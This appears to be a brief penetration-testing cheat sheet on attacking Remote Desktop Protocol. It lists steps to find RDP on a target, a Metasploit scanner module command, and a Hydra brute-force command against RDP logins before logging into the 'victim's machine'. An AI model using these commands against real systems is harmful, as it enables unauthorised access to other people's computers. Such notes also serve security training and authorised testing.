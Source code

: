 # RDP Remote Desktop Protoco

1. Defualt Port 3389
2. Protocol used for remotely accessing the computers

## How To Exploit

1. Check for running services on the target and confirm if RDP is running on any open port
2. use metasploit to confirm the services running is RDP

       use auxiliary/scanner/rdp/rdp_scanner
   
3. use Hydra to brute force the login credentials

       hydra -L user.txt -P password.txt rdp://IP -s PORT

4. use and RDP tools to login into the victim's machine
